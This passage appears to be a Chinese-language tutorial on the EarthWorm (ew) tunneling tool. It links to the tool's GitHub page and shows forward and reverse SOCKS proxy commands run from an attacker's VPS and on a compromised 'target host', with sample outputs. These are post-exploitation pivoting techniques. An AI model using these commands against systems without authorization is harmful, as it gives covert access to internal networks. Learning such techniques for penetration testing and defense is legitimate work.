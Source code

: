 下载地址：[https://github.com/idlefire/ew](https://github.com/idlefire/ew)

从这工具上传的时间是 5 年前就可以看出这个工具很有年代感了。

### 使用

该工具共有 6 种命令格式 ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran，正向连接的命令是 ssocked，反向连接的命令是 rcsocks 和 rssocks，其他命令用于一些比较复杂的网络环境中。

#### a、正向连接

正向连接需要目标主机有一个公网 IP，或者说攻击主机能够直接访问到目标主机。

命令也很简单

```
ew -s ssocksd -l 1080
```

```
 -s 设置状态模式 -l 设置监听端口
```

```
> .\ew_for_Win.exe -s ssocksd -l 1080ssocksd 0.0.0.0:1080 <--[10000 usec]--> socks server
```

然后使用 SocksCap、Proxifier、ProxyChains 等工具配置上目标主机的 IP 和监听端口即可，socks 要选择 socks5

#### b、反向连接

反向连接适合于目标没有公网 IP 的情况，这时就需要一台公网 vps 了，这里就直接以内网地址作为演示了。

在公网 VPS 上执行以下命令：

```
ew -s rcsocks -l 1080 -e 4444
```

```
 -e 设置反弹主机端口
```

```
> ./ew_for_linux64 -s rcsocks -l 1080 -e 4444
```

这条命令表示将 1080 端口接收到的数据转发到 4444 端口上。

在目标主机上执行以下命令：

```
ew -s rssocks -d vps_ip -e 4444
```

```
-d 设置反弹主机 IP
```

```
> .\ew_for_Win.exe -s rssocks -d 172.16.214.52 -e 4444
```
